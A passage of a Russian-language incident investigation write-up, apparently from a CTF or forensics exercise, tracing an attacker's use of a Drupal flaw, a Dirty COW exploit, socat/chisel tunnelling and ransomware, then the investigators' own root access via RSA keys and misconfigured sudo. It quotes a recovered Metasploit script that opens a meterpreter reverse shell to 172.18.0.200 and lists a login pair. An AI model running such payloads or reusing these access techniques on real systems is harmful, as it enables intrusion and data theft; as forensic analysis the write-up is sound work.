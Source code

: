 #### Interesting fact
При попытке восстановить удаленные файлы находим интересный файл `/var/www/html/44302.c`. Там лежит эксплоит, использующий CVE-2017-7533. А его скомпилированная версия в `/var/www/html/exploit`.
#### Interesting fact 2
В этих же восстановленных файлах найден скрипт metasploit:
```
set target 0  
set payload python/meterpreter/reverse_http  
set srvhost 0.0.0.0  
set srvport 8080  
set lhost 172.18.0.200  
set lport 4444  
set uripath evil  
exploit
```
Как минимум, мы знаем, что хакер использует metasploit.

### Summary about hacking
Хакер воспользовался уязвимостью в Drupal, чтобы загрузить reverse shell и файл `ditrycow.c`. Затем он прямо на атакуемой машине компилирует `sploit`, запускает его и перезаписывает `/usr/bin/passwd`. Через нее он получает root доступ к машине. Через хитрые трюки с socat и chisel он получает прокси к себе, скачивает шифровальщик, шифрует данные и убегает, немного прибирая за собой. Правда, он забыл почистить логи и вернуть `passwd` на место (что странно, в `/tmp/bak` тоже лежит поломанная версия `passwd`).

## 10.x.2.53
Тут все точно так же, как и на 10.x.2.11. Подключаемся как admin и входим через sudo --- root доступ готов.

## 10.x.1.254
Следуя хинту, пытаемся всякими возможными подключиться туда. `admin:John316` не подходит... Вспоминаем, что на 10.x.2.10 нашли пару ключей RSA. И на этот раз нам удается с их помощью подключиться к системе. Снова запускаем linpeas и снова неправильная настройка sudo. `sudo -i`  and we are root again.
 Немного изучая машину, понимаем, что она имеет 6 сетевых интерфейсов (не считая loopback): 10.x.1.(10,11,254); 10.x.(2,3,4,5,6).1.

## 10.x.6.254
Сканируя сети от фаерволла , находим машину 10.x.6.254. С ней снова прокатывает ключ с ключом cadm. Получаем доступ, снова срабатывает `sudo -i`.  Смотрим интерфейсы: 10.x.6.254, 10.x.(8,239,240).1. Сказали, что машинка бесполезна... Поверим.

## 10.x.8.(1,2,3,4)
Какие-то служебные машинки...

## 10.x.240.(5,6,9,10)
Тоже можно войти с ключом cadm, выполнить `sudo -i` и получить root доступ. На всех них крутится Java сервис SIED-2.3.jar
